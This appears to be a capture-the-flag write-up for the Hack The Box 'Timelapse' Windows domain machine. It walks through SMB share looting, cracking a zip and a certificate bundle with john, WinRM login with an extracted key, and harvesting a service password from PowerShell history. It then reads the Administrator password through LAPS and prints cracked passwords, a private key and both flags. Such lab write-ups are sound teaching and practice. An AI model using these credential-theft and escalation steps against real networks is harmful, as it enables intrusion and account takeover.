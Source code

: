 ```yaml
---
title: "TimeLapse from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# TimeLapse from HTB
`nmap`gave this:
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-18 00:31:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```
Then go to `smb`its open on `445 port`
```bash
smbclient //10.10.11.152/shares
Password for [WORKGROUP\giorgi]:
Try "help" to get a list of possible commands.
smb: \> ls
  .
  ..
  Dev
  HelpDesk
```
Then download all files in that directory:
```bash
cd Dev\
get Dev\winrm_backup.zip
cd HelpDesk\
get LAPS.x64.msi
get LAPS_TechnicalSpecification.docx
get LAPS_OperationsGuide.docx
get LAPS_Datasheet.docx
```
Then we should crack that `.zip`file which needs password and we will use `john`
```bash
zip2john Devwinrm_backup.zip >> hash_Dev
john -w=/usr/share/wordlists/rockyou.txt hash_Dev
-------
supremelegacy    (Devwinrm_backup.zip/legacyy_dev_auth.pfx)
-------
unzip Devwinrm_backup.zip
```
This will give us `legacyy_dev_auth.pfx` Which stores certificates and keys. We should crack it too with `john`
```bash
pfx2john legacyy_dev_auth.pfx >> legacy_hash
john -w=/usr/share/wordlists/rockyou.txt legacy_hash
-------
thuglegacy       (legacyy_dev_auth.pfx)
-------
```
Then extract certificates like this. Enter password all times when it asks you to
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx


Verifying - Enter PEM pass phrase:
-----BEGIN ENCRYPTED PRIVATE KEY-----
MIIFNTBfBgkqhkiG9w0BBQ0wUjAxBgkqhkiG9w0BBQwwJAQQ2i/vfK4gBZ8MUojR
pEjXMwICCAAwDAYIKoZIhvcNAgkFADAdBglghkgBZQMEASoEEJ6w6RVwQM/ipW/A
e//0LdIEggTQh/f5BKbRecUFOLCNdtQzS91q7QMzs3NjJWMcKfAu7DBQHWrYLN/Y
Zp1C24Ts0OQ/FwM1YtQRyNtSLu/30fS+0bI6T+yadanpAsTJ2aHiYrI4MP3rx/xx
yijA92IPcUWA8KveLNHdw3ZlMvJMq/hPh62jHUNzt8UuMzEuGHfNlwWiJC3Ry/Sb
dMewTsJ+OguwYw37CqQAjOErAgad8mk/LJyZxS0B9H5hivwh6z5dS77nMSInJ8uy
mlnjbv8BPZFYn4V4tveCO/7w4gigttXSHZscM1lvmu7zvm12KrCjcledOti6gDrL
bkJMDTOvXtH6IPvNXu1SX7N3wwmW7ah2ZIIjtXIidHAmFL1thyFN4c0xnH/PbqOX
OVS4JRr0iK2GZYiAzNfmx2mc8vhr3vuveRRcUhBbkU/cQ1Ubtp7EFYXhBvbTGATt
cThPFTVWFEhRE41Xvz+fXyIoQgmMHt9BzEF/YdIFOEJat7VEPM+OIN0gPhS6R531
d+XGM+/gw2XY8Z2fJ96ZDC/5eIOafrQLetdPlQil2LewtqqrmMv8RYE9hNqHYsBE
OGtZuG5FQ4Mwspf/81MmJDtiple0H9QOgYjV2rgPlsEt1uvCw/aBq0urqupBjQ/y
A9bNEza7d92ZDu0F41wLm5eI81ixSv7+n4eWONkTO3iuissRgR1rb06ak5/wVJmZ
oNC+u0gb+wC2+QWbGIofTzLegY8B2lnrLOFjASnNmwRqUJ5B8luO1YRhDBZFhsS2
9QBFRpWUIVSm7LmFwtL1zgkJTql0KXYdDrIkmLmYvPFfdqn+8T2KX03dQwQxsvVb
6bDm/mgXJeQc2rK5sEB4T/rzGFABLq52PBA+H8ZyNhPTJa2nk66kVeAqtik0cebc
KxdpMyrYh/XUB4x+Gy04SNXv/R6rYAHPaV1pZxgsTBWQeod5nGOi5tMMO8eU5nah
cTjbpFm3Rp0nieGlFCmUMvY4aMAA7s5nS8kKfKO7HIHK4BpQtzg/Cm7BWOfujpYS
zR6EQXAb0Dpa9jCT8C26j1ucXLjmWSpsuYeEgZrWGc+5w/aHdR6SAQ1GdsiSBs0v
7xD8+P9jCs0gQz1FhovB/ZTzKot35R1QnL+ij3zNGubqpr/nz3mMp3i7pAI9rGm3
bJSv4uzcHoBKRfY+OqyuAOmwXvT2SeStt7Le6ApaFmkaGLEpfGsyWWqG8HUbhxod
ohgrFvqIVpplLR5SnI1U1oty3d3EwUBPKtbqbPf5xBLm9AQ+nE1+spHZ21iofm/y
lPjnWNAXkGdjsMxgHW2KdEm28Q4AF4/4YINku0/LW3Zy2SkA3H2m/TJsAy3wUhaX
2pGutijsnPE8vHbYsFQK09oNbDNvPPO5Utyhg2k0OCPBcGOScKupmjxljmZVGrzy
1/m5+nidot73wCwBHzWvGwDcjkTpiTzacvMfX2QtCqTrwqAU97xxcb98WnZ26RgO
HeiiO0gYY28+SzypPi3BV3RDIh9ag+jVpvgh591xVY+cQYeGJRUEuawCy+JfrCGe
vI5T8xha/rWbz8VX4EM4QsIUd+QchaRyty7oROzMmG+cwGhlm7kb2HUAv7F0tgtQ
aBhe4YbSGHDO29DZSSIZ5K33K637OHy3n5OH1/tZJIJvtVOAS3nMiDw=
-----END ENCRYPTED PRIVATE KEY-----



-----BEGIN CERTIFICATE-----
MIIDJjCCAg6gAwIBAgIQHZmJKYrPEbtBk6HP9E4S3zANBgkqhkiG9w0BAQsFADAS
MRAwDgYDVQQDDAdMZWdhY3l5MB4XDTIxMTAyNTE0MDU1MloXDTMxMTAyNTE0MTU1
MlowEjEQMA4GA1UEAwwHTGVnYWN5eTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
AQoCggEBAKVWB6NiFkce4vNNI61hcc6LnrNKhyv2ibznhgO7/qocFrg1/zEU/og0
0E2Vha8DEK8ozxpCwem/e2inClD5htFkO7U3HKG9801NFeN0VBX2ciIqSjA63qAb
YX707mBUXg8Ccc+b5hg/CxuhGRhXxA6nMiLo0xmAMImuAhJZmZQepOHJsVb/s86Z
7WCzq2I3VcWg+7XM05hogvd21lprNdwvDoilMlE8kBYa22rIWiaZismoLMJJpa72
MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----

```
We'll need this to connect to this machine with `evil-winrm`
`Ports of winrm are open if you tell nmap to list all open ports`
Then save this key and certificate like this:
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```
Then connect:
```
evil-winrm -S -i 10.10.11.152 -c key.cert -k key.pem
```
User flag is in `C:\Users\legacyy\Desktop>`
***
User Flag is: 9f1d2a28bbb23052353dbe901d498486
***
Now you need to find another `users`credentials
```
C:\Users\legacyy\APPDATA\Roaming\microsoft\windows\powershell\psreadline> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```
>Username ---- svc_deploy
>Password ---- E3R$Q62^12p7PLlC%KWaxuaV

exit the connection and then connect as `svc_deploy`
Then read things about you
```
net user svc_deploy
------------
------------
Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```
With `LAPS_Readers`you can read passwords of users.
Then with this command you can find password for `Administrator`
```
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
------
---------
------------
ms-Mcs-AdmPwd                        : 7AP18$Q3+(.%58O9D-&4M}x#
------------
-------------------
---------
```
Exit the connection and connect as `administrator`
```
evil-winrm -S -i 10.10.11.152 -p '7AP18$Q3+(.%58O9D-&4M}x#' -u 'Administrator'
```
Root flag is in `C:\users\trx\desktop`
***
Root Flag is: 64372544d029b29754146e6cc55883c9
***
![](/assets/images/Screenshot from 2024-08-17 20-29-33.png)
F*ck* Windows <3
